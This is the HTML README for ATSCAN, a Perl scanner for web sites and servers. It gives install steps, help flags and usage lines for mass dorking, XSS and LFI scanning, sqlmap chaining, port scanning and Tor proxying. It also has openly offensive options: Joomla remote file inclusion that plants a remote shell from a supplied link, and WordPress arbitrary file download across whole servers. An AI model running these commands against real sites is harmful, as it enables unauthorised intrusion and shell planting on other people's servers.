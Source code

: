 <html>
<body>
<h1 align="center">ATSCAN</h1>
<p align="center"> <b>Search / Site / Server Scanner </b></p>
<center><img src="http://i.imgur.com/jUt3Gn7.png" /></center>
<table border="0" cellpadding="2" cellspacing="2" width="100%">
  <tr>
    <td align="center"><b>Alisam Technology is not responsible for any misuse, damage caused by this script or attacking targets without prior mutual consent!<b></td>
  </tr>
</table>
<table border="0" cellpadding="0" cellspacing="2" width="100%">
  <tr>
    <td width="100px" class="main2"><b>AUTHOR:</b></td><td width="780px">Alisam@Technology</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>FACE:</b></td><td>facebook.com/Forces.des.tempetes.marocaines </td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>YOUTUBE:</b></td><td>youtube.com/c/AlisamTechnology</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>WITTER:</b></td><td>twitter.com/AlisamTechno</td>
  </tr>
  <tr>
    <td width="100px" class="main2"><b>PLUS:</b></td><td>plus.google.com/+AlisamTechnology</td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Description:</b></td>
  </tr>
  <tr>
    <td class="main" width="890px">ATSCAN <br /> SEARCH engine <br />XSS scanner. <br /> Sqlmap.<br /> 
        LFI scanner.<br /> Filter wordpress and Joomla sites in the server. <br />Find Admin page.<br /> Decode / Encode MD5 + Base64.
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3" width="890px"> <b>Libreries to install:</b></td>
  </tr>
  <tr>
    <td class="main">
      ap-get install libxml-simple-perl <br/>
      aptitude install libio-socket-ssl-perl <br/>
      aptitude install libcrypt-ssleay-perl <br/>
      NOTE: Works in linux platforms. Best Run on Ubuntu 14.04, Kali Linux 2.0, Arch Linux, Fedora Linux, Centos | if you use a windows you can download manualy.
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3" width="890px"><b>Download & Executution:</b></td>
  </tr>
  <tr>
    <td class="main">
      git clone https://github.com/AlisamTechnology/ATSCAN <br/>
      cd ATSCAN <br/>
      chmod +x ATSCAN <br/>
      ./ATSCAN <br/>
      OR <br/>
      $chmod +x atscan.pl  <br/>
      Execute: perl ./atscan.pl <br/>
      Execute: perl ./atscan.pl --help
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3"><b>Screenshots:</b></td>
  </tr>
  <tr>
    <td align="center" width="890px">
    <img src="http://imgur.com/cydQiB9.jpg" /><br/><br/>
    <img src="http://i.imgur.com/4cqbGNW.jpg" /><br/><br/>
    <img src="http://i.imgur.com/c7ePRIq.jpg" /><br/><br/>
    <img src="http://i.imgur.com/GlsitTn.jpg" /><br/><br/>
    <img src="http://i.imgur.com/YtPr5OF.jpg" /><br/><br/>
    <img src="http://i.imgur.com/Ppg5Pez.jpg" /><br/><br/>
    <img src="http://i.imgur.com/MKDYjVo.jpg" /><br/><br/>
    </td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td class="main3" width="890px"><b>Help:</b></td>
  </tr>
  <tr>
    <td class="main"><table border="0" cellpadding="2" cellspacing="5" width="100%">
      <tr>
        <td width="200px" class="main">--tor</td>
        <td width="680px">tor proxy [DEFAULT:socks://localhost:9050] Change if needed!</td>
      </tr>
      <tr>
         <td width="200px" class="main">--dork</td>
        <td class="main">Search engine</td>
      </tr>
      <tr>
        <td width="200px" class="main">--mp</td>
        <td class="main">set number of page results to scan</td>
      </tr>
      <tr>
        <td width="200px" class="main">--xss</td>
        <td class="main">Xss scan</td>
      </tr>
      <tr>
        <td width="200px" class="main">--lfi</td>
        <td class="main">lfi scan</td>
      </tr>
      <tr>
        <td width="200px" class="main">-t</td>
        <td class="main">Target</td>
      </tr>
      <tr>
        <td width="200px" class="main">-l</td>
        <td class="main">List name</td>
      </tr>
      <tr>
        <td width="200px" class="main">--exp</td>
        <td class="main">Set exploit</td>
      </tr>
      <tr>
        <td width="200px" class="main">--valid</td>
        <td class="main">Text for validate results</td>
      </tr>
      <tr>
        <td width="200px" class="main">--sqlmap</td>
        <td class="main">Sqlmaping xss results</td>
      </tr>
      <tr>
        <td width="200px" class="main">--lfi</td>
        <td class="main">local file inclusion</td>
      </tr>
      <tr>
        <td width="200px" class="main">--joomrfi</td>
        <td class="main">get joomla sites with rfi in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--shell</td>
        <td class="main">shell link [Ex: http://www.site.com/shell.txt]</td>
      </tr>
      <tr>
        <td width="200px" class="main">--wpadf</td>
        <td class="main">get wordpress sites with arbitery file download in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--admin</td>
        <td class="main">get site admin page</td>
      </tr>
      <tr>
        <td width="200px" class="main">--shost</td>
        <td class="main">get site subdomains</td>
      </tr>
      <tr>
        <td width="200px" class="main">--ports</td>
        <td class="main">scan server ports</td>
      </tr>
      <tr>
        <td width="200px" class="main">--start</td>
        <td class="main">start scan port</td>
      </tr>
      <tr>
        <td width="200px" class="main">--end</td>
        <td class="main">end scan port</td>
      </tr>
      <tr>
        <td width="200px" class="main">--tcp</td>
        <td class="main">tcp ports</td>
      </tr>
      <tr>
        <td width="200px" class="main">--udp</td>
        <td class="main">udp ports</td>
      </tr>
      <tr>
        <td width="200px" class="main">--all</td>
        <td class="main">complete mode</td>
      </tr>
      <tr>
        <td width="200px" class="main">--basic</td>
        <td class="main">basic mode</td>
      </tr>
      <tr>
        <td width="200px" class="main">--select</td>
        <td class="main">Select mode you can set rang of ports</td>
      </tr>
      <tr>
        <td width="200px" class="main">--sites</td>
        <td class="main">sites in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--wp</td>
        <td class="main">wordpress sites in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--joom</td>
        <td class="main">joomla sites in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--upload</td>
        <td class="main">get sites with upload files in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--zip</td>
        <td class="main">get sites with zip files in the server</td>
      </tr>
      <tr>
        <td width="200px" class="main">--st</td>
        <td class="main">string</td>
      </tr>
      <tr>
        <td width="200px" class="main">--md5</td>
        <td class="main">convert to md5</td>
      </tr>
      <tr>
        <td width="200px" class="main">--encode64</td>
        <td class="main">encode base64 string</td>
      </tr>
      <tr>
        <td width="200px" class="main">--decode64</td>
        <td class="main">decode base64 string</td>
      </tr>
      <tr>
        <td width="200px" class="main">--isup</td>
        <td class="main">check http status 200</td>
      </tr>
      <tr>
        <td width="200px" class="main">--httpd</td>
        <td class="main">print site httpd version</td>
      </tr>
    </table></td>
  </tr>
</table>
<table border="0" cellpadding="2" cellspacing="5" width="100%">
  <tr>
    <td width="890px"><b>Examples:</b></td>
  </tr>
  <tr>
    <td class="main">
    <b>Simple search: </b><br/>
    --dork DORK --mp [number of page results to scan]<br/>
    --dork [DORK1,DORK2,DORK3..] --mp [number of page results to scan]<br/>
    --dork [DORK.txt] --mp [number of page results to scan from list]<br/><br/>
    <b>Subscan from Serach Engine: </b><br/>
    Xss: --dork DORK --mp 1 --xss<br/>
    Xss: --dork DORK --mp 1 --xss --sqlmap<br/>
    Xss: --dork DORKS.TXT --mp 1 --xss <br/>
    Lfi: --dork DORK --mp 1 --lfi<br/>
    Search + Command: --dork DORK --mp VALUE --command 'curl -v' --TARGET<br/><br/>
    <b>Validation: </b><br/>
    Xss: --dork DORK --mp 1 --xss --valid TEXT <br/>
    Lfi: --dork DORK --mp 1 --lfi --valid TEXT <br/>
    Xss: --dork DORK --mp 1 --xss --isup <br/>
    Lfi: --dork DORK --mp 1 --xss --isup <br/>
    Xss: --dork DORKS.TXT --mp 1 --xss --valid TEXT <br/>
    Lfi: --dork DORKS.TXT --mp 1 --lfi --valid TEXT <br/>
    Xss: --dork DORKS.TXT --mp 1 --xss --sqlmap <br/>
    Xss: --dork DORKS.TXT --mp 1 --xss --isup <br/>
    Lfi: --dork DORKS.TXT --mp 1 --xss --isup <br/><br/>
    <b>Use List / Target: </b><br/>
    Xss: -t TARGET --xss <br/>
    Lfi: -l TARGET --lfi <br/>
    Xss + Validation: -t TARGET --xss --valid TEXT <br/>
    Lfi + Validation: -t TARGET --lfi --valid TEXT  <br/>
    Xss + Validation: -l list.txt --xss --isup <br/>
    Lfi + Validation: -l list.txt --lfi --isup  <br/>
    Find admin page: -t TARGET --admin  <br/>
    Find subdomains: -t TARGET --shost  <br/><br/>
    
    <b>Server: </b>  <br/>
    Get Server sites: -t IP --mp [VALUE] --sites   <br/>
    Get Server sites: -t IP.txt --mp [VALUE] --sites   <br/>
    Get Server wordpress sites: -t IP --mp [VALUE] --wp   <br/>
    Get Server joomla sites: -t IP --mp [VALUE] --joom   <br/>
    Get Server upload sites: -t IP --mp [VALUE] --upload   <br/>
    Get Server zip sites files: -t IP --mp [VALUE] --zip   <br/>
    WP Arbitry File Download: -t IP --mp [VALUE] --wpadf   <br/>
    Joomla RFI: -t IP --mp <1> --joomfri --shell SHELL LINK   <br/>
    Scan basic tcp (quick): -t IP --ports --basic --tcp   <br/>
    Scan basic udp basic (quick): -t IP --ports --basic --udp   <br/>
    Scan basic udp+tcp: -t IP --ports --basic --udp --tcp   <br/>
    Scan complete tcp: -t IP --ports --all --tcp   <br/>
    Scan complete udp: -t IP --ports --all --udp   <br/>
    Scan complete tcp+udp: -t IP --ports --all --udp --tcp   <br/>
    Scan rang tcp: -t IP --ports --select --start --end --tcp   <br/>
    Scan rang udp: -t IP --ports --select --start --end --udp   <br/>
    Scan rang udp + tcp: -t IP --ports --select --start VALUE --end VALUE --udp --tcp <br/><br/>
    <b>Encode / Decode:  </b> <br/>
    Generate MD5: -st STRING --md5 <br/>
    Encode base64: -st STRING --encode64  <br/> 
    Decode base64: -st STRING --decode64 
    </td>
  </tr>
</table>  
</body>
</html>
